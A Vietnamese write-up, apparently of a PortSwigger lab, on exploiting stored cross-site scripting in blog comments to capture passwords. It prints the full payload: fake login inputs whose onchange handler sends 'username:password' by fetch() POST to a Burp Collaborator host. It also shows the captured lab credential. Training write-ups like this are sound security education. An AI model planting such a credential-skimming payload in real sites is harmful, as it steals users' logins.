



# Write-up: Exploiting cross-site scripting to capture passwords

### Tổng quan
Khai thác lỗ hổng Stored Cross-Site Scripting (XSS) trong chức năng comment của blog để chèn một form giả mạo, thu thập username và password của nạn nhân thông qua sự kiện `onchange` và gửi dữ liệu đến Burp Collaborator. Payload sử dụng thẻ `<input>` để tạo form nhập liệu, gửi thông tin nhạy cảm qua yêu cầu POST, cho phép lấy thông tin đăng nhập (`administrator:aljwv1v2kje669cm5hxp`) và hoàn thành lab.

### Mục tiêu
- Khai thác lỗ hổng Stored XSS trong chức năng comment để thu thập username và password của nạn nhân, gửi dữ liệu đến Burp Collaborator, sử dụng thông tin đăng nhập để truy cập tài khoản và hoàn thành lab.

### Công cụ sử dụng
- Burp Suite Community
- Firefox Browser

### Quy trình khai thác
1. **Thu thập thông tin (Reconnaissance)**
- Truy cập một bài viết bất kỳ trên blog và gửi comment để kiểm tra khả năng XSS:
    - Comment: <script>alert(1)</script>
    - Name:1111
    - Email: 1111@ginandjuice.shop
    - Website: http://www.website.com
- **Phản hồi**: Quay lại bài blog, thấy hộp thoại hiển thị 1, xác nhận lỗ hổng Stored XSS trong trường comment vì mã `<script>` được thực thi trực tiếp:
    

2. **Khai thác (Exploitation)**
- Gửi comment mới với payload XSS:
    - Comment: 
        ```
        <input name=username id=username>
        <input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
        method: 'POST',
        mode: 'no-cors',
        body:username.value+':'+this.value
        });">
        ```
    - Name:1111
    - Email: 1111@ginandjuice.shop
    - Website: http://www.website.com
-  Cơ chế chi tiết của payload:
   - `<input name=username id=username>`: Tạo trường nhập username.
   - `<input type=password name=password onchange="...">`: Tạo trường nhập password, với sự kiện `onchange` kích hoạt khi người dùng nhập password và rời khỏi trường.
   - `if(this.value.length)`: Kiểm tra password có giá trị (không rỗng).
   - `fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {method: 'POST', mode: 'no-cors', body:username.value+':'+this.value})`: Gửi yêu cầu POST đến Burp Collaborator, với body chứa `username`:`password` 

- Kiểm tra Burp Collaborator, thấy thông tin `username` và `password`:
    

- Sử dụng thông tin `administrator`:`aljwv1v2kje669cm5hxp` để đăng nhập vào /my-account và hoàn thành lab
    

### Bài học rút ra
- Hiểu cách khai thác lỗ hổng Stored XSS để tạo form giả mạo, thu thập thông tin đăng nhập của nạn nhân và gửi đến máy chủ bên ngoài qua Burp Collaborator.
- Nhận thức tầm quan trọng của việc làm sạch (sanitizing) input người dùng trong các trường như comment và triển khai các biện pháp bảo vệ như CSP hoặc kiểm tra nội dung để ngăn chặn các cuộc tấn công XSS.

### Tài liệu tham khảo
- PortSwigger: Cross-Site Scripting (XSS)

### Kết luận
Lab này cung cấp kinh nghiệm thực tiễn trong việc khai thác Stored XSS để thu thập thông tin đăng nhập, nhấn mạnh tầm quan trọng của việc làm sạch input người dùng và sử dụng các biện pháp bảo vệ như CSP. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger.

*Viết bởi Toàn Lương, Tháng 7/2025.*